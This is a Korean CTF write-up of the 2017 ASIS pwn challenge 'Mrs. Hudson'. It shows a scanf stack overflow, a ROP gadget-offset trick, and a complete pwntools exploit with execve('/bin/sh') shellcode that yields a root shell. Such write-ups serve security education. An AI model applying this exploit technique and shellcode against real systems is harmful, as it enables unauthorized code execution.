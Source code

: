 # [2017_ASIS] \[PWN] Mrs. Hudson

### Problem

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [sp+10h] [bp-70h]@1

  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  puts("Let's go back to 2000.");
  return __isoc99_scanf("%s", &v4);
}
```

Stack based Overflow가 발생할 것 같아 보입니다.



### Exploit

NX가 걸려있지 않기 때문에 shellcode를 올린 후, 그 주소로 점프하면 됩니다. 시스템에 ASLR이 걸려있지 않았다면 쉬운 문제였겠지만 ASLR이 걸려있었습니다.

ROP를 이용해야 합니다. 겉보기에는 가젯이 없어보이지만 아래와 같이 주솟값을 twist하는 트릭을 이용하여 가젯을 찾을 수 있습니다. 이 트릭을 이용할 수 있는지가 문제의 핵심이었습니다.

```
gdb-peda$ x/3i 0x4006f1
   0x4006f1 <__libc_csu_init+97>:	pop    rsi
   0x4006f2 <__libc_csu_init+98>:	pop    r15
   0x4006f4 <__libc_csu_init+100>:	ret    
gdb-peda$ x/3i 0x4006f3
   0x4006f3 <__libc_csu_init+99>:	pop    rdi
   0x4006f4 <__libc_csu_init+100>:	ret  
```



```python
from pwn import *

ret = 0x4004ee
popret = 0x400575
addesp_8 = 0x4004eb

shellcode = (
"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
)

pop_rdi_ret = 0x4006f3
pop_rsi_pop_r15_ret = 0x4006f1
bss = 0x601060

p = process("mrs._hudson")
#p = remote("178.62.249.106",8642)
print p.recv()
payload = "\x90"*(0x70)
payload += p64(bss)
payload += p64(pop_rsi_pop_r15_ret)
payload += p64(bss)
payload += p64(0)
payload += p64(0x400676)		# scanf("%s", bss)
payload += p64(bss)
payload += p64(bss)
p.sendline(payload)
raw_input()
p.sendline("a"*8 + p64(bss+16) + shellcode)
p.interactive()
```



### 결과

```
# python ex.py 
[!] Could not find executable 'mrs._hudson' in $PATH, using './mrs._hudson' instead
[+] Starting local process './mrs._hudson': pid 12982
Let's go back to 2000.


[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
```

